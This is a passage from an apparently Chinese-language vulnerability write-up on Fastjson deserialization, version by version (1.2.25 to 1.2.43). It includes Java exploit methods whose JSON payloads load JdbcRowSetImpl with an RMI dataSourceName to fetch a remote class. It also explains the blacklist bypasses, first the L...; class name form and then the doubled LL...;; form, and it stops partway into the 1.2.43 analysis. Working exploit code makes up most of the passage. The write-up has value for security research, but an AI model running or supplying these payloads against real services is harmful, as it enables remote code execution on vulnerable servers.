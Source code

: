 ```java
/**
 * 1.2.25<=version<=1.2.41
 * 1.2.25开始默认关闭了autotype支持
 * 此EXP : Bypass checkAutoType()中的黑白名单校验，但是还是需要开启autoType
 */
public static void exp3()throws Exception{
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String exp="{\n" +
            "  \"test\": {\n" +
            "    \"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\",\n" +
            "    \"dataSourceName\": \"rmi://127.0.0.1:1099/Exploit\",\n" +
            "    \"autoCommit\": true\n" +
            "  }\n" +
            "}";
    JSON.parse(exp);
}
```

### Version 1.2.42

这个版本对1.2.25<=version<=1.2.41的黑名单绕过进行了修复，同时将明文的黑名单修改成了10进制，增加安全研究的难度。看到官方修复的Diff：

![][p5]

所以我们只需要双写首字符 `L` 和双写末字符 `;` ，截掉后仍然存在首字符 `L` 以及尾字符 `;` ，仍然可以绕过黑名单。所以这个版本的EXP如下（仍然需要开启autoType）：

```java
/**
 * version=1.2.42
 * 双写绕过1.2.25<=version<=1.2.41的修复
 */
public static void exp4()throws Exception{
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String exp="{\n" +
            "  \"test\": {\n" +
            "    \"@type\": \"LLcom.sun.rowset.JdbcRowSetImpl;;\",\n" +
            "    \"dataSourceName\": \"rmi://127.0.0.1:1099/Exploit\",\n" +
            "    \"autoCommit\": true\n" +
            "  }\n" +
            "}";
    JSON.parse(exp);
}
```

### Version 1.2.43

这个版本对1.2.42进行了修复，首先看到官方的修复方法：

![image-20210805121625629](/media/image-20210805121625629.png)

所以双写LL不能绕过了。但是我们看到 `TypeUtils#loadClass` 存在如下代码：

```java
if(className.charAt(0) == '['){
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}
```

